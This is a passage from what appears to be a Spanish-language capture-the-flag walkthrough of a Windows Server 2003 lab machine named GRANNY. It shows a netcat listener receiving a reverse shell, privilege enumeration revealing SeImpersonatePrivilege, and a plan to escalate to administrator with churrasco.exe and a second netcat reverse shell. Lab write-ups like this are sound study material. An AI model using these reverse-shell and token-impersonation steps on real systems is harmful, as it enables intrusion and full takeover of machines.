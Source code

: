 * Recibimos la reverse shell

```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.15] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

#### Escalada de Privilegios

Ahora nos falta convertirnos al usuario **administrador**.

```shell
\> whoami /priv # Ver privilegios

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

* Ver información del sistema

```shell
\> systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
```

Vemos que tenemos el **SeImpersonatePrivilege** habilitado y podríamos abusar de esto con **juicypotato** pero se ve que no funciona con las versiones de windows server 2003 y hay que utilizar **churrasco.exe** que es una alternativa.

* Descargar **churrasco.exe** en https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

```shell
> mv /home/red/Descargas/churrasco.exe .
> ls
 churrasco.exe
```

* Transferir **churrasco.exe** a la maquina victima y con netcat nos enviaremos una reverse shell
